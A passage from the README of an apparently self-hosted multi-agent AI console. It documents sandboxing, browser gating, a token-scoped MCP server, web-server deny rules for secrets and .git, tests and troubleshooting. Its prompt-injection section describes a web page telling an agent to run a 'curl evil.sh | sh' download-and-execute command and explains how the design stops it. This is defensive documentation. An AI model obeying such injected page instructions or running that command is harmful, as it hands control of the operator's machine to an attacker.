- **📚 The converter lesson, learned the hard way.** Saved browser pages faithfully preserve secrets. The app now keeps such dumps **out of the webroot**, and the guidance is plain: **strip keys before saving a page.**

### 🖼️ 10. Vision is safe by construction
- **🧨 An image that is *also* a script** is the classic polyglot attack. Only **PNG / JPEG / WebP / GIF** are accepted, and only after they sniff as **inert**.
- **☁️ The bytes never touch the server.** An attached image becomes an in-memory `data:` URL and rides in the request's `image_url` field — **no upload endpoint, no file on disk.** 🗑️

### 🌐 11. The built-in browser is gated on every hop
- **🚪 Off by default**; every browser route returns **403** until you enable it (and the API refuses the tools regardless of what a prompt says).
- **🔗 `http/https` only**, cloud-metadata refused, and a **server-side block list** (`*.gov`, `*word*`, bare hosts/IPs, URL paths) is enforced on **every navigation** — yours *and* the agents' — and **re-checked after a click or type** in case a link reaches a banned host.
- **🐕 One instance, reaped.** Launching reaps any stray headless Chrome/Edge still holding the profile dir, so there is never a pile of them chewing CPU/GPU.

### 🤝 12. MCP server — lending tools without giving away the house
- **🎫 Per-friend tokens, each with a scope** — **read** / **write** / **exec** — plus an optional **IP allowlist** and **one-click revoke**. Tokens never expire until you kill them.
- **📏 Scope is a *ceiling*, the Sandbox is the *floor*.** A friend's token only decides *which* tool it may reach; the call still runs through **every** control above — the file jail, allow/deny lists, interpreter levels, code gate and the approval queue.
- **⏳ An un-allowed command lands in *your* Pending-approvals list** and the friend's call simply returns *"waiting for the operator."*
- **🏚️ Friends work in a scratch folder** that gets a **deny-all `.htaccess`**, so what they write is never served over the web.
- **🧾 Every call is audited** to `storage/mcp.log` (now JSON, so the graph can replay it).

### 🧷 13. Prompt-injection posture
- **Abandon all trust, ye who `fetch` here.** Anything an agent *reads* is treated as hostile input — which is exactly why commands are allowlisted, executed without a shell, and every path is jailed. A web page that says *"run `curl evil.sh | sh`"* hits three walls before it does anything: the allowlist, the no-shell exec, and the deny list.
- **🛠️ Tool calls win the argument.** The tool instructions state plainly that a tool call is the **one exception** to any "reply with only text / N words" rule, and the loop **re-prompts once** if a model merely *narrates* a tool call instead of sending it.
- **🚧 Agents can *call* MCP servers — never add one.** Server connections are operator-only.

### 🚫 14. Everything dangerous defaults to OFF 🐢
| Capability | Default | Guardrail |
| --- | --- | --- |
| 🔑 Access token | **required** | `401` without it — nothing runs first-run |
| 🐚 `exec` (shell) | **off** | allowlist + absolute deny + no shell |
| 🐍 `run_code` | **off** | per-interpreter level (Blocked / Scripts / Full) |
| 🌐 Built-in browser | **off** | `403`, http/https only, block list, SSRF guard |
| 🔁 API pool | **on** | only engages for a provider that *has* pool keys — with none, `pickKey` returns null and the single provider key is used exactly as before |
| 🖥️ MCP server | **off** | per-friend scoped tokens, audit log |
| 🟢 Auto-approve | **off** | every write still asks |
| 🕶️ Run while tab hidden | **off** | a background loop can't bill you silently |
| 🧮 Resource Manager | **all off** | the graph renders exactly as before |

### 🧯 15. Fails closed, and tells the truth
- **🧱 Fail closed** — when in doubt, refuse. A refused path reads as *"outside the allowed directories"*, never a blank `500`.
- **🧹 Error hygiene** — failures come back as `{"error": "..."}` with HTTP `400` and a message **meant for the model**, and `display_errors` stays off so stack traces and filesystem paths never leak to a browser.
- **🔍 Observability for you** — a live **Run trace** and an MCP audit log mean every model turn and tool call is inspectable after the fact.

### 🗄️ 16. `storage/` is never web-served — in **every** serving mode

- **🔑 What it holds.** The access token, every provider API key, the state
  bundle, **every session transcript**, and the **exec allow/deny lists** that
  decide which shell commands an agent may run. It is the most sensitive folder
  in the app, and the one-folder design puts it *inside* the web root — so the
  refusal has to be part of the app, not a step you remember. 🧠
- **🧭 Same policy everywhere.** `storage/` is not special-cased: `storage`, `logs`,
  `tmp`, `sessions` and `tests` are refused as **path segments**, in **all four**
  serving modes, and the dev tooling is treated exactly like the secrets.

| What is requested | 🧪 `serve.php` | 🟡 Apache | 🔴 nginx | 🔵 IIS |
| --- | --- | --- | --- | --- |
| `storage/config.json`, `state.json`, sessions | **403** | **403** | **404** | **404** |
| `tests/php/…`, `tests/js/…` | **403** | **403** | **404** | **404** |
| The bare folders (`/storage`, `/tests/`) — no listing either | **403** | **403** | **404** | **404** |
| **Any depth**: `<copy>/storage/config.json`, `<copy>/tests/…` | **403** | **403** | **404** | **404** |
| `…/STORAGE/state.json` (case variant) | **403** | **403** | **404** | **404** |
| Dotfiles at **any depth** (`.git/…`, `.htaccess`, `.env`, `.htpasswd`) | **403** | **403** | **404** | deny ¹ |
| Loose `.json` `.log` `.ini` `.bak` `.key` `.pem` outside `storage/` | served ² | served ² | **404** | served ² |
| `/api`, `/api/sessions`, `/api/config` | **served** | **served** | **served** | **served** |
| `ui/js/tests.js`, `ui/js/storage.js`, `/testsuite/` | **served** | **served** | **served** | **served** |

<sub>¹ IIS has no `.htaccess` equivalent: its refusal comes from `web.config`, the way nginx's comes from `nginx.example.conf`. Apache's own `.ht*` default is **not** a substitute — it covers `.htaccess` and `.htpasswd` and serves `.git/config` quite happily — which is why the root `.htaccess` carries the same dot rule as the other two modes. ² These only exist if something wrote them there — `storage/` never is.</sub>

- **🪆 Why “any depth” matters.** A second copy of the app — a backup, an
  archive of an older version, a folder kept for comparison — brings its **own**
  `storage/` with the same token and keys in it, and its `tests/` may predate
  `tests/.htaccess`. A root-only check served all of that. The guard is therefore a
  **segment** rule, not a prefix rule: anything named `storage` anywhere in the path
  is refused, which is why `https://host/router/old-copy/storage/config.json`
  answers `403` instead of a token.
- **🗂️ The checkout sits in the web root, so `.git/` is part of the surface.**
  This folder is the repository *and* the thing being served, which puts `.git/`
  behind the same door as everything else: `.git/config` can carry a remote URL
  with a token in it, and `.git/objects` reconstructs **every file ever
  committed** — including one removed later for holding a secret. `serve.php` and
  `nginx.example.conf` always refused dotfiles; Apache did not, and served
  `.git/config` with the real `[core]` section as a **200**. The root
  `.htaccess` now refuses any path segment starting with a dot, at any depth,
  with `/.well-known` as the single exception so ACME renewal still works — and
  `apacheGuards.test.php` requests `.git/config`, `.git/HEAD`, `.git/objects/pack/`
  and a nested `.git` so it cannot quietly reopen.
- **🧠 Why Apache needs `RedirectMatch`, not just a `RewriteRule`.** In
  per-directory context a child `.htaccess` **replaces** its parent's rewrite rules
  unless it opts into `RewriteOptions Inherit` — and every copy of this app ships
  its own root `.htaccess`, so a rewrite in the outer app never sees
  `<copy>/tests/…`. mod_alias configuration *is* merged down the tree, so the
  shipped `RedirectMatch 403` holds no matter what a nested folder declares. (Found
  with an Apache `rewrite:trace3` log: once the request maps into the copy, the
  parent's rules are skipped entirely.)
- **🚫 API routes are exempt — deliberately.** They are **endpoints, not files**.
  The sidebar asks for `/api/sessions` to list sessions; a rule that matched the
  word refused that call and broke the UI. No API route maps onto a path on disk —
  the handlers open `storage/` themselves, server-side.
- **🎯 Segment-anchored, not substring.** `ui/js/tests.js`, `ui/js/storage.js` and
  `/testsuite/` are still served: only a folder actually named `tests` is refused.
- **🔠 Case-insensitive on purpose.** Windows and macOS disks resolve
  `/STORAGE/state.json` to the real file, so a case-sensitive check was not a
  check at all — `serve.php` lower-cases every segment, Apache uses `NC` / `(?i)`,
  and nginx uses `~*`.
- **🧾 No source either.** `serve.php` refuses any `.php` request except the API
  front controller, so a mistyped path can't print PHP source as text; nginx is
  told to deny dotfiles and loose data files (`.json`, `.log`, `.ini`, `.bak`,
  `.key`, `.pem`) even outside `storage/`.
- **🟡 Apache files that ship and self-repair.** `storage/.htaccess` refuses its
  whole folder with `Require all denied` (plus an Apache 2.2 `Order/Deny` fallback,
  so an old host gets a clean `403` rather than a `500`), `tests/.htaccess` does
  the same for the dev tooling, and `./setup-token.sh` **re-creates the storage one
  if a deploy lost it**.
- **🚨 Verify, don't trust.** After deploying, ask for both — in a private window:
  ```bash
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/storage/config.json   # want 403 / 404
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/tests/js/run.mjs       # want 403 / 404
  curl -s -o /dev/null -w '%{http_code}\n' https://your-host/router/api/sessions           # want 401, never 403
  ```
  JSON or source in the first two means the folder is exposed — stop and fix the
  rule before anything else. 🛑
- **🏰 The strongest option:** keep `storage/` **outside** the document root. If
  the one-folder design forces it inside, the deny rules above are mandatory, not
  optional.

### 🧪 17. The guards are proven, not assumed

A guard nobody requests is a guard you don't have, so each serving mode has a test
that **makes the real request** and fails loudly when a path comes back:

| Test | What it actually does |
| --- | --- |
| 🧪 `guards.test.php` | Boots `serve.php` on a loopback port and requests the live paths — files, bare folders, case variants, dotfiles, the `/api/*` exemption and lookalike names |
| 🟡 `apacheGuards.test.php` | Boots the local Apache with this folder as `DocumentRoot` and `AllowOverride All`, so the **shipped `.htaccess` files themselves** are what answer — `/tests`, `/storage`, the archived copy, and the dotfile rule over `.git/config`, `.git/HEAD`, `.git/objects/` and a nested `.git` |
| 🔴 `nginxGuards.test.php` | Lifts the `location` regexes out of `nginx.example.conf` and runs them through PCRE — the engine nginx matches with — so a rule that reopens a hole fails without nginx installed |
| 🪆 nested-copy checks | `guards.test.php` requests nested paths directly; `apacheGuards.test.php` does the same against the archived copy when one is present — the case a root-anchored rule misses |

Run them with the rest of the suite (*Tests*, below). 🌱

### 🌐 18. Closed by default in the browser, too

- 🚫 **No CORS wildcard — deliberately.** The API used to answer with
  `Access-Control-Allow-Origin: *`, which let **any** website on the internet
  `fetch()` this server and read the answers: every conversation, the memory and
  the whole config. The UI is served from this same origin and never needed it.
  Cross-origin is now refused unless the origin is explicitly listed in
  `ROUTER_CORS_ORIGINS` (comma-separated), and `Vary: Origin` keeps caches honest.
- 🛡️ **Security headers on every Apache response** — `X-Content-Type-Options:
  nosniff` (a `.js` can’t be talked into being a script of another type),
  `X-Frame-Options: DENY` (the console can’t be framed inside another site, so no
  clickjacking a SAVE button) and `X-XSS-Protection: 1; mode=block`. The built-in
  server adds `nosniff` to everything it serves, SPA fallback included.
- 🧊 **Cache policy is part of the contract** — HTML is `no-store`; JS and CSS are
  `no-cache, must-revalidate`, so a browser can never pair a new module with a
  month-old one (which is how an old `api.js` once ran beside a new `tools.js`).
  The UI you audited is the UI that loads. ✅
- 🔑 **The token never rides along** — it is stripped from every state bundle
  before that bundle is mirrored to the server or synced to another device (§1).

> ⚖️ **The honest caveat:** the app is only as safe as the operator's switches. Turn
> everything on, auto-approve writes, and point the root at `/` — and you have built
> yourself a very capable foot-gun. The design *makes the safe choice the default*
> and *makes the unsafe choice deliberate*, but it does not (and cannot) read your
> mind. Keep the root narrow, keep approvals on, and rotate your keys. 💙

---

## 🔌 MCP — connect **out** to other servers (client)

**Config → MCP Client.** Add any MCP server (stdio command + args, or an HTTP URL with headers). Its tools become available to your agents through `mcp_list` / `mcp_call`. Servers are operator-configured — a model can *call* them, never add one.

```jsonc
// storage/config.json
"mcp": { "servers": [
  { "id": "files", "transport": "stdio",
    "command": "npx", "args": ["-y", "@modelcontextprotocol/server-filesystem", "/srv"],
    "env": { "GITHUB_TOKEN": "…" } },
  { "id": "internal", "transport": "http", "url": "https://mcp.example.com",
    "headers": { "Authorization": "Bearer …" } }
]}
```

On Windows, stdio servers inherit the process environment (including `PATH`, `ComSpec`, `APPDATA`, `TEMP` and the usual Node install directories), so `npx`/`node` work without a manual PATH. `env` overrides individual keys. HTTP servers that require a session get `initialize` + `Mcp-Session-Id` automatically when the first call says it needs one; stateless servers still use a single POST.

---

## 🖥️ MCP — let others connect **in** (server)



The mirror of the client: an operator can expose this install as a **remote MCP server**, so another person's MCP client — their own local model, Claude Desktop, Cursor — can call tools that run on the operator's machine.

### 🔧 Enable it (operator)
**Config → MCP Server**
1. Turn **Enable the MCP server** on.
2. Set a **scratch folder** — friends' file and command tools are jailed there, and a deny-all `.htaccess` is dropped in so nothing they write is web-served.
3. Optionally edit the **protected paths** list.
4. Add a **token per friend**, each with a scope: **read / write / exec** (and an optional IP allowlist). Tokens never expire; revoke one with a click.

The endpoint is **`POST /api/mcp-server`** (JSON-RPC 2.0), authenticated with `Authorization: Bearer <token>`.

### 🎚️ What a token decides
- **read** → `read_file`, `list_dir`, `glob_files`, `grep_code`, `stat`, `fetch_url`, `web_search`, `git_read`
- **write** → `write_file`, `edit_file`, `insert`, `apply_patch`, `multi_edit`
- **exec** → `exec`, `run_code`, `git_commit`

Scope is a **ceiling**, not a bypass: a call still runs through the same sandbox, allow/deny lists, interpreter levels and approvals. An un-allowed command queues in the **operator's** Pending-approvals list and the friend's call returns *"waiting for the operator"*. Every call is written to `storage/mcp.log`.

### 👋 How a friend connects
1. **Client supports remote MCP (HTTP)** — add a remote server at the URL with one header: `Authorization: Bearer <token>`.
2. **Client is stdio-only (e.g. Claude Desktop)** — bridge it with `mcp-remote`:
   ```bash
   npx -y mcp-remote https://YOUR-HOST/path/api/mcp-server \
     --header "Authorization: Bearer <token>"
   ```
3. **The friend runs their own copy of Loop Studio** — **Config → MCP Client → + ADD SERVER** (name, transport `http`, url, and a `headers` box with `Authorization: Bearer <token>`). Their agents then reach the operator's tools through `mcp_list` / `mcp_call`.

The operator hands over the **URL + that friend's token**; `FRIENDS.md` is the one-page version to send along.

---

## 🌐 Built-in browser — you watch, the agents drive


A **real Chrome or Edge**, right inside the console — 🚫 no packages, 🚫 no extensions, just the DevTools Protocol. 🖥️ Open it from the **Browser** item in the apps notch and you get the live page, an address bar, **Go / Reload**, a **Live** auto-refresh, a headless ⇄ window toggle, and a **click-through** view: tap the page and it clicks. ✨

- 🖱️ **Click, type, read** — click anywhere on the screenshot, type into the field you need, press **Enter**, and pull the page's visible text.
- 🤖 **Agents use the same page** — `browser_open` / `browser_click` / `browser_type` / `browser_read` / `browser_wait` drive it too, so a model can genuinely operate a web app.
- 🔐 **Logins stick** — the profile is persistent: log in **once** (headless, or in a window you can take over 🫳) and both you and the agents reuse the session.
- 🛡️ **Off by default and gated** — Config → Labs → *Browser* switches it on; **http/https only**, cloud-metadata addresses refused, and every route is token-gated.
- 🚫 **A domain / URL / IP block list** — a right-rail box on the Browser screen. One pattern per line, `*` wildcard: `*.gov`, `*word*`, a bare host/IP (`10.0.0.1`), or a URL path (`site.com/a/b/`). Enforced **server-side on every navigation** — yours *and* the agents' — and **re-checked after a click or type** in case a link reaches a banned host.
- 🐕 **One browser, reaped** — launching (or stopping) reaps any stray headless Chrome/Edge still holding the profile dir, so orphan instances never pile up and chew CPU/GPU.
- ⚡ **No multi-second stalls** — DevTools HTTP is read by exact `Content-Length` over a raw socket, navigation returns the moment the page is interactive, and every action is single-flight so a slow page can't stampede the connection pool.

---

## 📱 Android & mobile

The UI is **mobile-first** — touch controls, a responsive layout, an icon rail on phones, and it works in the phone's browser right next to wireless-debugging tooling.

> ⚠️ **Correction:** an earlier note claimed there would be no Android app because *"you can't put a PHP server into an Android app."* **That is false.** An Android build is a packaging exercise, not an impossibility:
>
> - 🧩 **Thin WebView shell** — package a tiny app whose WebView points at the hosted instance. The whole UI already runs in a mobile browser.
> - 📦 **PHP on-device** — PHP runs on Android via **Termux** (`pkg install php`, then `php -S 127.0.0.1:8080 serve.php`), **KSWEB**, or **AndroPHP**, so a fully local, offline build is possible too.
> - 🏠 **Installable PWA** — add the web UI to the home screen as a progressive web app.
>
> So: 📱 an Android version is on the table. The old "impossible" line is struck.

---

## 🧩 Architecture

```
/router/
├── index.html            # SPA entry (canonical)
├── api/
│   ├── index.php         # REST front controller (all routes)
│   └── lab.inc.php       # API Lab request runner
├── src/                  # PHP backend
│   ├── Config.php        # settings + models
│   ├── ModelManager.php  # relays + streaming
│   ├── Harness.php       # provider / tool-dialect registry
│   ├── Sandbox.php       # jail, files, exec, git, code, http
│   ├── Cdp.php           # hand-rolled WebSocket + DevTools Protocol client
│   ├── Browser.php       # detect / launch / drive Chrome or Edge
│   ├── Mcp.php           # MCP client
│   ├── McpServer.php     # MCP server
│   ├── SessionManager.php
│   ├── TopologyGraph.php
│   └── Audio.php
├── ui/
│   ├── js/               # app modules: store · api · stateSync · tools ·
│   │                     #   toolManifest · toolProtocol · harness · nativeTools ·
│   │                     #   apiPool · trace · perf · brainlab · alwaysOn · memory ·
│   │                     #   desktop2026 (the glass shell) · ifaceMode · drawerState
│   │   └── components/   # chat · sidebar · routingChart · browserView · topology3d/…
│   └── css/              # base · layout · chat · components · topology · desktop2026
├── tools/
│   ├── gen-harness.php   # generates ui/js/harness.data.js
│   └── cacert.pem
├── tests/
│   ├── run.mjs           # the whole suite: PHP, then JS
│   ├── php/              # sandbox · harness · mcp · mcpServer · mcpStdio ·
│                         #   guards · apacheGuards · nginxGuards  (run.php)
│   └── js/               # agentSearch · context · curl · drawerState ·
│                         #   harness · ifaceMode · latency · nativeTools ·
│                         #   stripToolCall                       (run.mjs)
├── screenshots/
├── storage/              # JSON data (config, state, sessions) — git-ignored
├── serve.php             # php -S router (no Apache needed)
├── start.bat / start.sh  # launchers
├── setup-xampp.bat/.ps1  # one-click Apache + PHP (Windows)
├── setup-token.sh        # create / rotate the access token (+ storage guard)
├── nginx.example.conf    # deny storage/ + tests/ on nginx (copy into server{})
├── FRIENDS.md            # hand this to a friend to connect over MCP
├── CHANGELOG.md
└── README.md
```

---

---

## 🧪 Tests

> 🧰 **Optional dev tooling.** Nothing in `tests/` is loaded by the app or imported by the UI — the folder exists only to be run from a terminal, and deleting it changes nothing about how the app behaves. **The app itself stays plain PHP with no build or dependency step:** drag the folder onto a host and it runs. Node is needed only if *you* choose to run the JavaScript tests; `php tests/php/run.php` needs nothing beyond the `php` you already have. No `package.json`, no `node_modules`, nothing to install.
>
> 🔒 `tests/` is not needed at runtime, and **every serving mode refuses it**, the same way it refuses `storage/`: `serve.php` answers **403** for anything under `/tests` (and for a `storage`, `logs`, `tmp`, `sessions` or `tests` folder **at any depth**, so a copy of the app kept inside the web root cannot expose its own `config.json`), `tests/.htaccess` (which ships) plus the root `.htaccess`'s any-depth `RedirectMatch` deny it on Apache, and `nginx.example.conf` covers it for nginx in every folder, not just the root. **API routes are exempt in all three** — `/api/sessions` is the session *list*, not the `storage/sessions` folder, and no API route maps onto a path from disk. Leaving `tests/` out of a deploy is still the tidiest option — it holds no config, keys or tokens either way.

One command runs the whole suite:

```bash
node tests/run.mjs      # PHP first, then JS
```

Either half runs on its own, which is what you want while working on one of them:

| Command | What it runs |
| --- | --- |
| 🧪 `node tests/run.mjs` | Both suites, PHP then JS |
| 🐘 `php tests/php/run.php` | PHP only — sandbox, harness, MCP client/server, HTTP guards (`serve.php`, Apache `.htaccess`, and the nginx rules via PCRE), and the CSS/JS **layer audit** |
| 🟨 `node tests/js/run.mjs` | JS only — context, curl, drawer state, harness, interface mode, latency, native tools, tool-markup stripping |

- **The layer audit is a stylesheet test.** `tests/php/layers.test.php` parses `ui/css/*.css` (and the handful of `z-index` values set from `ui/js` and `index.html`) and fails if any **surface** — panel, drawer, pane, menu — ties or outranks a dialog. Notices are exempt by name with a reason: the fatal banners, the boot splash, the CRT scanline overlay, toasts and the approval prompt, which must be visible over a dialog. It reads the dialog's number and the ladder comment in `modals.css` rather than hardcoding them, so moving the layer means updating both. It exists because dialogs once sat *below* the built-in Browser pane and an agent's ⋮ menu at 3000, and nothing failed.
- **Each test file is its own process**, exactly as if you had run it by hand, so one file's globals or a failed import cannot colour another's result.
- **Naming is the registration.** A `*.test.mjs` in `tests/js/` or a `*.test.php` in `tests/php/` is picked up automatically — there is no list to update. Helpers (like `tests/php/mcp-mock-server.php`, which `mcp.test.php` spawns itself) simply don't use the `.test.` name.
- **A file passes by exiting `0`.** A failure prints that file's full output — stdout and stderr — and the runner exits `1` if anything failed, so CI or a pre-commit hook can just check the status.
- **A suite that cannot run fails the command** instead of being quietly skipped: with no `php` on PATH you get `PHP suite did not run` and exit `1`. Point `PHP_BINARY` at the binary if it lives somewhere unusual.
- **No internet and no browser.** The JS tests import the real modules (`tools.js`, `utils.js`, `nativeTools.js`) straight into Node; the PHP ones use a temporary sandbox root and a local stdio MCP mock. The only servers are the ones two guard tests start for themselves on random loopback ports — `php -S` for `serve.php`'s own router, and the local Apache for the shipped `.htaccess` files — and each shuts its server down when it finishes. `nginxGuards.test.php` starts nothing at all: it lifts the `location` regexes out of `nginx.example.conf` and runs them through PCRE, which is the engine nginx matches with. One Apache detail it has to handle: Apache reads `.htaccess` from directories **above** `DocumentRoot` too, so a copy of the app nested inside another copy would have the parent's file parsed as server config (`<IfModule not allowed here`) and answer `500` to everything — which is why the generated config pins every ancestor to `AllowOverride None` and leaves only the shipped files in play.
- **End a test file with its own count**, e.g. `58 passed, 0 failed`. The runners read that last line for the per-file summary and the total, and never trust the count of a file that failed.

> ⚠️ Some tests **skip** instead of pass, and each prints a `SKIP:` line when it does: `sandbox.test.php` skips its git checks when git is missing or its commands are refused in the temporary directory; `guards.test.php` skips if `proc_open` is disabled, no loopback port can be bound, or a checkout has no `storage/sessions/*.json` yet; and `apacheGuards.test.php` skips when there is no Apache to boot — point `ROUTER_HTTPD` at one to run it (its nested-copy checks also skip when no second copy of the app is present). A green run therefore does not cover those cases — read the line, it is not a pass.

> 📋 **Cutting a release?** [RELEASING.md](RELEASING.md) is the checklist: which of the two version numbers to bump, and the **three** places `APP_VERSION` has to change together so a browser cannot mix a new module with an old one.

---

## 🔗 API endpoints

All under `/router/api/…` (or `/api/…`). Every route is token-gated.

| Area | Routes |
| --- | --- |
| 🗂️ State / config | `GET·PUT /state`, `GET·PUT /config`, `GET /models` |
| 💬 Sessions | `GET·POST /sessions`, `GET·PUT·DELETE /sessions/{id}`, `DELETE /sessions/close/{id}` |
| 🤖 Models / relay | `POST /query`, `POST /llm` (relay + stream), `GET /catalog` |
| 🛠️ Sandbox | `GET /sandbox/status`, `POST /sandbox/{search,fetch,read,write,list,glob,grep,str_replace,insert,apply_patch,multi_edit,git,git_commit,http,code,…}` |
| 🧑💻 Shell | `POST /exec`, `GET /exec/allowlist`, `GET /exec/pending`, `POST /exec/decide` |
| 🔌 MCP | `GET·POST /mcp/servers`, `GET /mcp/status`, `POST /mcp/tools`, `POST /mcp/call` |
| 🖥️ MCP server | `POST /mcp-server` (JSON-RPC), `GET·POST /mcp-server/config` |
| 🧪 Lab / proxy | `POST /lab`, `GET /proxies`, `POST /proxy-ping`, `GET·PUT /proxy-active` |
| 📈 Misc | `GET /topology`, `POST /diag`, `GET /backup`, `POST /import`, `GET /export/{id}`, `POST /audio/{speak,transcribe}` |
| 🔁 Updates | `GET /update` (status + cached plan), `GET /update/check` (is a newer release published? cached six hours — `POST` asks now), `POST /update/download` (fetch, verify, diff), `POST /update/discard` — download-only: no endpoint applies anything |

Failures come back as `{"error": "..."}` with HTTP 400 and a message meant for the model, so a refused path reads as *"outside the allowed directories"* rather than a blank 500.

---

## 🧯 Troubleshooting

- **"PHP's curl extension is not enabled"** → the server was started without the launcher (e.g. a bare `php -S`). Use `start.bat` / `start.sh`, or run `php serve.php --setup`.
- **Every request returns 401** → the **Access token** isn't pasted on this device. The token is per-device; paste it in **Config → Access token**.
- **Phone shows an empty UI or immortal 401s** → a **split-brain** load. Deploy the **whole `ui/` folder** (never single files) and hard-refresh — mixing module versions gives each its own store.
- **Agents "won't use tools"** → check for a **global pre-prompt** that says "reply with ONLY text / N words" — it fights the tool protocol. The tool instructions now override it and the loop re-prompts once, but turning it off is cleanest. A fleet-wide house rule is fine — just remember it **prepends** to each agent's prompt by default (or **replaces** it if you flip the toggle in the editor).
- **An agent's badge says HELD and nothing happens** → it's parked. A **cap** (Config → Limits & Budgets → *Max iterations* / *Max minutes*) held it, or you stopped it by hand. Click **Config → Permissions → RELEASE HELD AGENTS** (or toggle the master switch off and on). To loop forever, set both caps to **`0`** and give the agent a real standing goal — a goal of `idle` gives it nothing to aim at, so it will wander.
- **Always-on stops when you leave the tab** → turn on **Config → Permissions → *Run while tab is hidden*** (it drives the timer from a Web Worker). It is **off by default** so a background loop can't bill you silently.
- **A model returns nothing / "NetworkError"** → on Windows PHP's built-in server is single-threaded; use `start.bat` (Apache) for parallel agents, or `start-php.bat` for one at a time.
- **MCP client gets `missing bearer token` even with a token** → under Apache + PHP-FPM the `Authorization` header is stripped before PHP sees it. Redeploy `api/.htaccess` (shipped): it has `CGIPassAuth On` plus the `RewriteCond %{HTTP:Authorization}` fallback, so `$_SERVER['HTTP_AUTHORIZATION']` is populated. Without that file both are empty. If a proxy/WAF also strips the header, the host must allow it through (nginx: `fastcgi_param HTTP_AUTHORIZATION $http_authorization;`).
- **Local models not connecting** → make sure Ollama/LM Studio is running and reachable (Ollama `:11434`, LM Studio `:1234`).

---

## 📜 License

**Copyright** — M. Bryce Hudson 2026-2029 All Rights Reserved See [`LICENSE`](LICENSE). 💙

Made by [MBHudson](https://github.com/mbhudson/)
